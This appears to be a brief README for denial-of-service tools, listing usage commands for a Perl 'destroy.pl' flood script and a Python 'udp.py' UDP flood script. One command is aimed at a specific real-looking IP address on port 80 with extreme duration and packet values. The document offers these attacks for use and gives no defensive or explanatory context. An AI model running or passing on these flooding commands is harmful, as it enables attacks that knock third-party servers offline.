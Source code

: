 # Commands

$ Destroy 

perl destroy.pl 76.223.105.230 80 65500 50000000000
Usage: destroy <ip> <port> <time>
Example: destroy 1.1.1.1 80 60

$ UDP

python2 udp.py {ip} {port} 0 0
Usage: udp <ip> <port>
Example: udp 1.1.1.1 80

